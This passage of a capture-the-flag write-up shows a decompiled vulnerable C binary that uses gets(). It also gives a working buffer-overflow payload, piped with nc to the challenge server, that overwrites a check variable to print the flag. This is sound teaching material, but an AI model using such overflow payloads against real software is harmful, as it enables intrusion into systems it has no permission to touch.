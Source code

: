 After this part, I knew that there was an if-statement at the end that checked if two values were equal to one another. If false, then it would skip the execution, which was the `<system@plt>`. However, I wasn't sure how this would evaluate in C. I tried to compare the binary to previous challenges, but no luck. I went to sleep.

After a night, ainz gave me a hint to look into Ghidra. Woo! Alright, 30 minutes left. loading it up, I realize that Ghidra had the decompiler I was trying to find online. Here's the binary decompiled:
```
undefined8 main(void)

{
  char local_38 [40];
  long local_10;
  
  local_10 = 0xba5eba11;
  printf("What would you like to put in my variable? ");
  gets(local_38);
  if (local_10 == 0xacce55e5) {
    system("cat flag.txt");
  }
  return 0;
}

```

It's very clear now that we just need to overflow the buffer of local_38 in order to change the initialization of local_10. To do this, the offset was `40` and we add the hex value that `local_10` is being checked for. Anyway.

testing:  
I had set up a flag.txt file that just read "opened flag.txt", which was used to confirm that the exploit worked. 
```
$ chmod +x runme
$ python -c "print 'A'*40+'\xe5\x55\xce\xac'" > temp
$ ./runme < temp
opened flag.txt
```


exploit:
```
python -c "print 'A'*40+'\xe5\x55\xce\xac'" | nc imaginary.ml 10006
```

Flag: `flag{0v3rwr1t1ng_4_v4r1abl3?_c00l!}`

Resources used for runme:
- [0xRICK's intro to buffer overflows](https://0xrick.github.io/binary-exploitation/bof1/)
- [Hacktober CTF Writeup](https://veteransec.com/2018/10/19/hacktober-ctf-2018-binary-analysis-larry/)
- [StackOverflow on reading input](https://stackoverflow.com/questions/16508817/how-do-i-provide-input-to-a-c-program-from-bash)
- [Online Disassembler](https://onlinedisassembler.com/odaweb/)
- [Install Ghidra on Kali Linux](https://executeatwill.com/2019/04/04/Install-Ghidra-on-Kali-Linux/) ([+tutorial](https://www.youtube.com/watch?v=fTGTnrgjuGA))
- [kgbuquerin's video on a similar exploit](https://www.youtube.com/watch?v=C-k516BHPl8)

